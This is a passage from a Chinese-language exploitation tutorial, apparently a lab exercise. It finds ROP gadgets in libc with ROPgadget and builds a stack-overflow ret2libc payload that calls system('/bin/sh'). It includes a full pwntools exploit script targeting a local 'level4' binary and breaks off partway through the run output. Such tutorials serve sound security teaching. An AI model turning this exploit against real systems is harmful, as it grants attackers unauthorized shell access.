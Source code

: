 `payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)`  
另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链。  
```
$ ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi
0x000000000012da1d : call qword ptr [rdi]
0x0000000000187113 : call qword ptr [rdx + rdi + 0x8f10001]
0x00000000000f1f04 : call rdi
0x00000000000f4739 : pop rax ; pop rdi ; call rax
0x00000000000f473a : pop rdi ; call rax
```
通过搜索结果我们发现，`0x00000000000f4739 : pop rax ; pop rdi ; call rax` 也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。  

`payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)`  
所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：  
``` python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)


pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
```
运行结果如下：  
```
$ python exp6.py 
[+] Started program './level4'
binsh_addr_offset = 0x134d41
pop_ret_offset = -0x22d1e
```